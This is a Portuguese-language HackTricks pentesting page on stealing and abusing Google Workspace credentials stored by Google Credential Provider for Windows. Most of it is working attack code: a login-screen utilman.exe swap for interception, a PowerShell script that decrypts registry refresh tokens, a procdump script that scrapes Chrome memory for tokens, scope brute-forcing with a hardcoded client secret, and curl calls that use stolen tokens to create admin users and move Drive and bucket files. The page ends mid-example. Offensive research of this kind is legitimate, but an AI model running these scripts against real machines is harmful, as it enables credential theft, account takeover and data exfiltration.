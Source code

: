 # GCPW - Google Credential Provider for Windows

{{#include ../../../banners/hacktricks-training.md}}

## Informações Básicas

Este é o login único que o Google Workspaces fornece para que os usuários possam fazer login em seus PCs com Windows usando **suas credenciais do Workspace**. Além disso, isso armazenará tokens para acessar o Google Workspace em alguns lugares no PC.

> [!TIP]
> Note que [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) é capaz de detectar **GCPW**, obter informações sobre a configuração e **até mesmo tokens**.

### GCPW - MitM

Quando um usuário acessa um PC com Windows sincronizado com o Google Workspace via GCPW, ele precisará completar um formulário de login comum. Este formulário de login retornará um código OAuth que o PC trocará pelo token de atualização em uma solicitação como:
```http
POST /oauth2/v4/token HTTP/2
Host: www.googleapis.com
Content-Length: 311
Content-Type: application/x-www-form-urlencoded
[...headers...]

scope=https://www.google.com/accounts/OAuthLogin
&grant_type=authorization_code
&client_id=77185425430.apps.googleusercontent.com
&client_secret=OTJgUOQcT7lO7GsGZq2G4IlT
&code=4/0AVG7fiQ1NKncRzNrrGjY5S02wBWBJxV9kUNSKvB1EnJDCWyDmfZvelqKp0zx8jRGmR7LUw
&device_id=d5c82f70-71ff-48e8-94db-312e64c7354f
&device_type=chrome
```
> [!NOTE]
> Foi possível realizar um MitM instalando o `Proxifier` no PC, sobrescrevendo o binário `utilman.exe` com um `cmd.exe` e executando os **recursos de acessibilidade** na página de login do Windows, que executará um **CMD** a partir do qual você pode **iniciar e configurar o Proxifier**.\
> Não se esqueça de **bloquear o tráfego QUICK UDP** no `Proxifier` para que ele faça downgrade para comunicação TCP e você possa vê-lo.
>
> Também configure em "Serviced and other users" ambas as opções e instale o certificado CA do Burp no Windows.

Além disso, adicionando as chaves `enable_verbose_logging = 1` e `log_file_path = C:\Public\gcpw.log` em **`HKLM:\SOFTWARE\Google\GCPW`**, é possível fazer com que ele armazene alguns logs.

### GCPW - Impressão Digital

É possível verificar se o GCPW está instalado em um dispositivo verificando se o seguinte processo existe ou se as seguintes chaves de registro existem:
```bash
# Check process gcpw_extension.exe
if (Get-Process -Name "gcpw_extension" -ErrorAction SilentlyContinue) {
Write-Output "The process gcpw_xtension.exe is running."
} else {
Write-Output "The process gcpw_xtension.exe is not running."
}

# Check if HKLM\SOFTWARE\Google\GCPW\Users exists
$gcpwHKLMPath = "HKLM:\SOFTWARE\Google\GCPW\Users"
if (Test-Path $gcpwHKLMPath) {
Write-Output "GCPW is installed: The key $gcpwHKLMPath exists."
} else {
Write-Output "GCPW is not installed: The key $gcpwHKLMPath does not exist."
}

# Check if HKCU\SOFTWARE\Google\Accounts exists
$gcpwHKCUPath = "HKCU:\SOFTWARE\Google\Accounts"
if (Test-Path $gcpwHKCUPath) {
Write-Output "Google Accounts are present: The key $gcpwHKCUPath exists."
} else {
Write-Output "No Google Accounts found: The key $gcpwHKCUPath does not exist."
}
```
Em **`HKCU:\SOFTWARE\Google\Accounts`** é possível acessar o e-mail do usuário e o **refresh token** criptografado se o usuário fez login recentemente.

Em **`HKLM:\SOFTWARE\Google\GCPW\Users`** é possível encontrar os **domínios** que estão autorizados a fazer login na chave `domains_allowed` e, nas subchaves, é possível encontrar informações sobre o usuário, como e-mail, foto, nome de usuário, durações de token, identificador de token...

> [!NOTE]
> O identificador de token é um token que começa com `eth.` e do qual pode ser extraída alguma informação com uma solicitação como:
>
> ```bash
> curl -s 'https://www.googleapis.com/oauth2/v2/tokeninfo' \
>   -d 'token_handle=eth.ALh9Bwhhy_aDaRGhv4v81xRNXdt8BDrWYrM2DBv-aZwPdt7U54gp-m_3lEXsweSyUAuN3J-9KqzbDgHBfFzYqVink340uYtWAwxsXZgqFKrRGzmXZcJNVapkUpLVsYZ_F87B5P_iUzTG-sffD4_kkd0SEwZ0hSSgKVuLT-2eCY67qVKxfGvnfmg'
> # Exemplo de resposta
> {
>   "audience": "77185425430.apps.googleusercontent.com",
>   "scope": "https://www.google.com/accounts/OAuthLogin",
>   "expires_in": 12880152
> }
> ```
>
> Também é possível encontrar o identificador de token de um token de acesso com uma solicitação como:
>
> ```bash
> curl -s 'https://www.googleapis.com/oauth2/v2/tokeninfo' \
>   -d 'access_token=<access token>'
> # Exemplo de resposta
> {
>   "issued_to": "77185425430.apps.googleusercontent.com",
>   "audience": "77185425430.apps.googleusercontent.com",
>   "scope": "https://www.google.com/accounts/OAuthLogin",
>   "expires_in": 1327,
>   "access_type": "offline",
>   "token_handle": "eth.ALh9Bwhhy_aDaRGhv4v81xRNXdt8BDrWYrM2DBv-aZwPdt7U54gp-m_3lEXsweSyUAuN3J-9KqzbDgHBfFzYqVink340uYtWAwxsXZgqFKrRGzmXZcJNVapkUpLVsYZ_F87B5P_iUzTG-sffD4_kkd0SEwZ0hSSgKVuLT-2eCY67qVKxfGvnfmg"
> }
> ```
>
> Até onde sei, não é possível obter um refresh token ou access token a partir do identificador de token.

Além disso, o arquivo **`C:\ProgramData\Google\Credential Provider\Policies\<sid>\PolicyFetchResponse`** é um json que contém as informações de diferentes **configurações** como `enableDmEnrollment`, `enableGcpAutoUpdate`, `enableMultiUserLogin` (se vários usuários do Workspace podem fazer login no computador) e `validityPeriodDays` (número de dias que um usuário não precisa se reautenticar diretamente com o Google).

## GCPW - Obter Tokens

### GCPW - Tokens de Atualização do Registro

Dentro do registro **`HKCU:\SOFTWARE\Google\Accounts`** pode ser possível encontrar algumas contas com o **`refresh_token`** criptografado dentro. O método **`ProtectedData.Unprotect`** pode facilmente descriptografá-lo.

<details>

<summary>Obter <strong><code>HKCU:\SOFTWARE\Google\Accounts</code></strong> dados e descriptografar refresh_tokens</summary>
```bash
# Import required namespace for decryption
Add-Type -AssemblyName System.Security

# Base registry path
$baseKey = "HKCU:\SOFTWARE\Google\Accounts"

# Function to search and decrypt refresh_token values
function Get-RegistryKeysAndDecryptTokens {
param (
[string]$keyPath
)

# Get all values within the current key
$registryKey = Get-Item -Path $keyPath
$foundToken = $false

# Loop through properties to find refresh_token
foreach ($property in $registryKey.Property) {
if ($property -eq "refresh_token") {
$foundToken = $true
try {
# Get the raw bytes of the refresh_token from the registry
$encryptedTokenBytes = (Get-ItemProperty -Path $keyPath -Name $property).$property

# Decrypt the bytes using ProtectedData.Unprotect
$decryptedTokenBytes = [System.Security.Cryptography.ProtectedData]::Unprotect($encryptedTokenBytes, $null, [System.Security.Cryptography.DataProtectionScope]::CurrentUser)
$decryptedToken = [System.Text.Encoding]::UTF8.GetString($decryptedTokenBytes)

Write-Output "Path: $keyPath"
Write-Output "Decrypted refresh_token: $decryptedToken"
Write-Output "-----------------------------"
}
catch {
Write-Output "Path: $keyPath"
Write-Output "Failed to decrypt refresh_token: $($_.Exception.Message)"
Write-Output "-----------------------------"
}
}
}

# Recursively process all subkeys
Get-ChildItem -Path $keyPath | ForEach-Object {
Get-RegistryKeysAndDecryptTokens -keyPath $_.PSPath
}
}

# Start the search from the base key
Get-RegistryKeysAndDecryptTokens -keyPath $baseKey
```
</details>
```
Path: Microsoft.PowerShell.Core\Registry::HKEY_CURRENT_USER\SOFTWARE\Google\Accounts\100402336966965820570Decrypted refresh_token: 1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI
```
Conforme explicado em [**este vídeo**](https://www.youtube.com/watch?v=FEQxHRRP_5I), se você não encontrar o token no registro, é possível modificar o valor (ou deletar) de **`HKLM:\SOFTWARE\Google\GCPW\Users\<sid>\th`** e na próxima vez que o usuário acessar o computador, ele precisará fazer login novamente e o **token será armazenado no registro anterior**.

### GCPW - Tokens de Atualização de Disco

O arquivo **`%LocalAppData%\Google\Chrome\User Data\Local State`** armazena a chave para descriptografar os **`refresh_tokens`** localizados dentro dos **perfis do Google Chrome** do usuário, como:

- `%LocalAppData%\Google\Chrome\User Data\Default\Web Data`
- `%LocalAppData%\Google\Chrome\Profile*\Default\Web Data`

É possível encontrar algum **código C#** acessando esses tokens de forma descriptografada em [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe).

Além disso, a criptografia pode ser encontrada neste código: [https://github.com/chromium/chromium/blob/7b5e817cb016f946a29378d2d39576a4ca546605/components/os_crypt/sync/os_crypt_win.cc#L216](https://github.com/chromium/chromium/blob/7b5e817cb016f946a29378d2d39576a4ca546605/components/os_crypt/sync/os_crypt_win.cc#L216)

Pode-se observar que AESGCM é utilizado, o token criptografado começa com uma **versão** (**`v10`** neste momento), depois tem [**12B de nonce**](https://github.com/chromium/chromium/blob/7b5e817cb016f946a29378d2d39576a4ca546605/components/os_crypt/sync/os_crypt_win.cc#L42), e então tem o **texto cifrado** com um **mac final de 16B**.

### GCPW - Extraindo tokens da memória de processos

O seguinte script pode ser usado para **extrair** cada processo do **Chrome** usando `procdump`, extrair as **strings** e então **procurar** por strings relacionadas a **tokens de acesso e atualização**. Se o Chrome estiver conectado a algum site do Google, algum **processo estará armazenando tokens de atualização e/ou acesso na memória!**

<details>

<summary>Extrair processos do Chrome e procurar tokens</summary>
```bash
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$chromeProcesses = Get-Process -Name "chrome" -ErrorAction SilentlyContinue | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -accepteula -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}

Remove-Item -Path $dumpFolder -Recurse -Force
```
</details>

Eu tentei o mesmo com `gcpw_extension.exe`, mas ele não encontrou nenhum token.

Por algum motivo, **alguns tokens de acesso extraídos não serão válidos (embora alguns sejam)**. Eu tentei o seguinte script para remover caracteres um por um para tentar obter o token válido do dump. Nunca me ajudou a encontrar um válido, mas pode ajudar, eu acho:

<details>

<summary>Verificar token de acesso removendo caracteres um por um</summary>
```bash
#!/bin/bash

# Define the initial access token
access_token="ya29.a0AcM612wWX6Pe3Pc6ApZYknGs5n66W1Hr1CQvF_L_pIm3uZaXWisWFabzxheYCHErRn28l2UOJuAbMzfn1TUpSKqvYvlhXJpxQsKEtwhYXzN2BZdOQNji0EXfF7po1_0WaxhwqOiE0CFQciiL8uAmkRsoXhq9ekC_S8xLrODZ2yKdDR6gSFULWaiIG-bOCFx3DkbOdbjAk-U4aN1WbglUAJdLZh7DMzSucIIZwKWvBxqqajSAjrdW0mRNVN2IfkcVLPndwj7fQJV2bQaCgYKAbQSAQ4SFQHGX2MiPuU1D-9-YHVzaFlUo_RwXA0277"

# Define the URL for the request
url="https://www.googleapis.com/oauth2/v1/tokeninfo"

# Loop until the token is 20 characters or the response doesn't contain "error_description"
while [ ${#access_token} -gt 20 ]; do
# Make the request and capture the response
response=$(curl -s -H "Content-Type: application/x-www-form-urlencoded" -d "access_token=$access_token" $url)

# Check if the response contains "error_description"
if [[ ! "$response" =~ "error_description" ]]; then
echo "Success: Token is valid"
echo "Final token: $access_token"
echo "Response: $response"
exit 0
fi

# Remove the last character from the token
access_token=${access_token:0:-1}

echo "Token length: ${#access_token}"
done

echo "Error: Token invalid or too short"
```
</details>

### GCPW - Gerando tokens de acesso a partir de tokens de atualização

Usando o token de atualização, é possível gerar tokens de acesso utilizando-o e o ID do cliente e o segredo do cliente especificados no seguinte comando:
```bash
curl -s --data "client_id=77185425430.apps.googleusercontent.com" \
--data "client_secret=OTJgUOQcT7lO7GsGZq2G4IlT" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
https://www.googleapis.com/oauth2/v4/token
```
### GCPW - Escopos

> [!NOTE]
> Note que mesmo tendo um token de atualização, não é possível solicitar qualquer escopo para o token de acesso, pois você só pode solicitar os **escopos suportados pela aplicação onde você está gerando o token de acesso**.
>
> Além disso, o token de atualização não é válido em todas as aplicações.

Por padrão, o GCPW não terá acesso como o usuário a todos os possíveis escopos OAuth, então usando o seguinte script podemos encontrar os escopos que podem ser usados com o `refresh_token` para gerar um `access_token`:

<details>

<summary>Script Bash para força bruta de escopos</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=77185425430.apps.googleusercontent.com" \
--data "client_secret=OTJgUOQcT7lO7GsGZq2G4IlT" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

E este é o resultado que obtive no momento da escrita:

<details>

<summary>Escopos forçados por força bruta</summary>
```
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
```
</details>

Além disso, verificando o código-fonte do Chromium, é possível [**encontrar este arquivo**](https://github.com/chromium/chromium/blob/5301790cd7ef97088d4862465822da4cb2d95591/google_apis/gaia/gaia_constants.cc#L24), que contém **outros escopos** que pode-se assumir que **não aparecem na lista previamente forçada**. Portanto, esses escopos extras podem ser assumidos:

<details>

<summary>Escopos extras</summary>
```
https://www.google.com/accounts/OAuthLogin
https://www.googleapis.com/auth/account.capabilities
https://www.googleapis.com/auth/accounts.programmaticchallenge
https://www.googleapis.com/auth/accounts.reauth
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/aida
https://www.googleapis.com/auth/aidahttps://www.googleapis.com/auth/kid.management.privileged
https://www.googleapis.com/auth/android_checkin
https://www.googleapis.com/auth/any-api
https://www.googleapis.com/auth/assistant-sdk-prototype
https://www.googleapis.com/auth/auditrecording-pa
https://www.googleapis.com/auth/bce.secureconnect
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/cast.backdrop
https://www.googleapis.com/auth/cclog
https://www.googleapis.com/auth/chrome-model-execution
https://www.googleapis.com/auth/chrome-optimization-guide
https://www.googleapis.com/auth/chrome-safe-browsing
https://www.googleapis.com/auth/chromekanonymity
https://www.googleapis.com/auth/chromeosdevicemanagement
https://www.googleapis.com/auth/chromesync
https://www.googleapis.com/auth/chromewebstore.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/cryptauth
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/experimentsandconfigs
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/gcm
https://www.googleapis.com/auth/googlenow
https://www.googleapis.com/auth/googletalk
https://www.googleapis.com/auth/identity.passwords.leak.check
https://www.googleapis.com/auth/ip-protection
https://www.googleapis.com/auth/kid.family.readonly
https://www.googleapis.com/auth/kid.management.privileged
https://www.googleapis.com/auth/kid.permission
https://www.googleapis.com/auth/kids.parentapproval
https://www.googleapis.com/auth/kids.supervision.setup.child
https://www.googleapis.com/auth/lens
https://www.googleapis.com/auth/music
https://www.googleapis.com/auth/nearbydevices-pa
https://www.googleapis.com/auth/nearbypresence-pa
https://www.googleapis.com/auth/nearbysharing-pa
https://www.googleapis.com/auth/peopleapi.readonly
https://www.googleapis.com/auth/peopleapi.readwrite
https://www.googleapis.com/auth/photos
https://www.googleapis.com/auth/photos.firstparty.readonly
https://www.googleapis.com/auth/photos.image.readonly
https://www.googleapis.com/auth/profile.language.read
https://www.googleapis.com/auth/secureidentity.action
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/supportcontent
https://www.googleapis.com/auth/tachyon
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
https://www.googleapis.com/auth/wallet.chrome
```
</details>

Observe que o mais interessante é possivelmente:
```c
// OAuth2 scope for access to all Google APIs.
const char kAnyApiOAuth2Scope[] = "https://www.googleapis.com/auth/any-api";
```
No entanto, tentei usar esse escopo para acessar o gmail ou listar grupos e não funcionou, então não sei quão útil ainda é.

**Obtenha um token de acesso com todos esses escopos**:

<details>

<summary>Script Bash para gerar token de acesso a partir de refresh_token com todos os escopos</summary>
```bash
export scope=$(echo "https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
https://www.google.com/accounts/OAuthLogin
https://www.googleapis.com/auth/account.capabilities
https://www.googleapis.com/auth/accounts.programmaticchallenge
https://www.googleapis.com/auth/accounts.reauth
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/aida
https://www.googleapis.com/auth/kid.management.privileged
https://www.googleapis.com/auth/android_checkin
https://www.googleapis.com/auth/any-api
https://www.googleapis.com/auth/assistant-sdk-prototype
https://www.googleapis.com/auth/auditrecording-pa
https://www.googleapis.com/auth/bce.secureconnect
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/cast.backdrop
https://www.googleapis.com/auth/cclog
https://www.googleapis.com/auth/chrome-model-execution
https://www.googleapis.com/auth/chrome-optimization-guide
https://www.googleapis.com/auth/chrome-safe-browsing
https://www.googleapis.com/auth/chromekanonymity
https://www.googleapis.com/auth/chromeosdevicemanagement
https://www.googleapis.com/auth/chromesync
https://www.googleapis.com/auth/chromewebstore.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/cryptauth
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/experimentsandconfigs
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/gcm
https://www.googleapis.com/auth/googlenow
https://www.googleapis.com/auth/googletalk
https://www.googleapis.com/auth/identity.passwords.leak.check
https://www.googleapis.com/auth/ip-protection
https://www.googleapis.com/auth/kid.family.readonly
https://www.googleapis.com/auth/kid.management.privileged
https://www.googleapis.com/auth/kid.permission
https://www.googleapis.com/auth/kids.parentapproval
https://www.googleapis.com/auth/kids.supervision.setup.child
https://www.googleapis.com/auth/lens
https://www.googleapis.com/auth/music
https://www.googleapis.com/auth/nearbydevices-pa
https://www.googleapis.com/auth/nearbypresence-pa
https://www.googleapis.com/auth/nearbysharing-pa
https://www.googleapis.com/auth/peopleapi.readonly
https://www.googleapis.com/auth/peopleapi.readwrite
https://www.googleapis.com/auth/photos
https://www.googleapis.com/auth/photos.firstparty.readonly
https://www.googleapis.com/auth/photos.image.readonly
https://www.googleapis.com/auth/profile.language.read
https://www.googleapis.com/auth/secureidentity.action
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/supportcontent
https://www.googleapis.com/auth/tachyon
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
https://www.googleapis.com/auth/wallet.chrome" | tr '\n' ' ')

curl -s --data "client_id=77185425430.apps.googleusercontent.com" \
--data "client_secret=OTJgUOQcT7lO7GsGZq2G4IlT" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token
```
</details>

Alguns exemplos usando alguns desses escopos:

<details>

<summary>https://www.googleapis.com/auth/userinfo.email & https://www.googleapis.com/auth/userinfo.profile</summary>
```bash
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/oauth2/v2/userinfo"

{
"id": "100203736939176354570",
"email": "hacktricks@example.com",
"verified_email": true,
"name": "John Smith",
"given_name": "John",
"family_name": "Smith",
"picture": "https://lh3.googleusercontent.com/a/ACg8ocKLvue[REDACTED]wcnzhyKH_p96Gww=s96-c",
"locale": "en",
"hd": "example.com"
}
```
</details>

<details>

<summary>https://www.googleapis.com/auth/admin.directory.user</summary>
```bash
# List users
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/admin/directory/v1/users?customer=<workspace_id>&maxResults=100&orderBy=email"

# Create user
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"primaryEmail": "newuser@hdomain.com",
"name": {
"givenName": "New",
"familyName": "User"
},
"password": "UserPassword123",
"changePasswordAtNextLogin": true
}' \
"https://www.googleapis.com/admin/directory/v1/users"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/drive</summary>
```bash
# List files
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files?pageSize=10&fields=files(id,name,modifiedTime)&orderBy=name"
{
"files": [
{
"id": "1Z8m5ALSiHtewoQg1LB8uS9gAIeNOPBrq",
"name": "Veeam new vendor form 1 2024.docx",
"modifiedTime": "2024-08-30T09:25:35.219Z"
}
]
}

# Download file
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files/<file-id>?alt=media" \
-o "DownloadedFileName.ext"

# Upload file
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/octet-stream" \
--data-binary @path/to/file.ext \
"https://www.googleapis.com/upload/drive/v3/files?uploadType=media"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/devstorage.read_write</summary>
```bash
# List buckets from a project
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/storage/v1/b?project=<project-id>"

# List objects in a bucket
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/storage/v1/b/<bucket-name>/o?maxResults=10&fields=items(id,name,size,updated)&orderBy=name"

# Upload file to bucket
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/octet-stream" \
--data-binary @path/to/yourfile.ext \
"https://www.googleapis.com/upload/storage/v1/b/<BUCKET_NAME>/o?uploadType=media&name=<OBJECT_NAME>"

# Download file from bucket
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/storage/v1/b/BUCKET_NAME/o/OBJECT_NAME?alt=media" \
-o "DownloadedFileName.ext"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/spreadsheets</summary>
```bash
# List spreadsheets
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files?q=mimeType='application/vnd.google-apps.spreadsheet'&fields=files(id,name,modifiedTime)&pageSize=100"

# Download as pdf
curl -X GET \
-H "Authorization: Bearer $access_token" \
